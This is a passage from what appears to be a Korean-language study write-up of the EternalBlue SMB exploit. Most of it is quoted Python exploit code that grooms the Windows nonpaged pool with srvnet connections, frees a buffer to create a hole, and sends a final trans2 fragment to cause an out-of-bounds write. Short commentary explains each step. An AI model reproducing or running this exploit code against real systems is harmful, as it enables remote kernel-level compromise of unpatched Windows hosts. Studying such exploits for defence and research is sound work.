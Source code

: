 
    # create buffer size NTFEA_SIZE-0x1000 at server
    # this buffer MUST NOT be big enough for overflown buffer
    allocConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x1010)

    # groom nonpaged pool
    # when many big nonpaged pool are allocated, allocate another big nonpaged pool should be next to the last one
    srvnetConn = []
    for i in range(numGroomConn):
      sk = createConnectionWithBigSMBFirst80(target)
      srvnetConn.append(sk)

    # create buffer size NTFEA_SIZE at server
    # this buffer will be replaced by overflown buffer
    holeConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x10)
    # disconnect allocConn to free buffer
    # expect small nonpaged pool allocation is not allocated next to holeConn because of this free buffer
    allocConn.get_socket().close()

    # hope one of srvnetConn is next to holeConn
    for i in range(5):
      sk = createConnectionWithBigSMBFirst80(target)
      srvnetConn.append(sk)

    # remove holeConn to create hole for fea buffer
    holeConn.get_socket().close()

다시 `exploit()` 함수로 돌아와서, overflow 시킬 수 있는 hole을 만드는 작업을 한다.

위의 코드에서, `holeConn`은 할당된 후 free되어 overflow 시킬 수 있는 빈 공간이 되고, 그 주변을 `srvnet.sys` buffer로 채운다.

이때 `allocConn`은 kernel gromming을 돕는 역할을 하는 듯 한데 추가로 알아볼 필요가 있음.


    # send last fragment to create buffer in hole and OOB write one of srvnetConn struct header
    send_trans2_second(conn, tid, feaList[progress:], progress)
    recvPkt = conn.recvSMB()
    retStatus = recvPkt.getNTStatus()
    # retStatus MUST be 0xc000000d (INVALID_PARAMETER) because of invalid fea flag
    if retStatus == 0xc000000d:
      print('good response status: INVALID_PARAMETER')
    else:
      print('bad response status: 0x{:08x}'.format(retStatus))
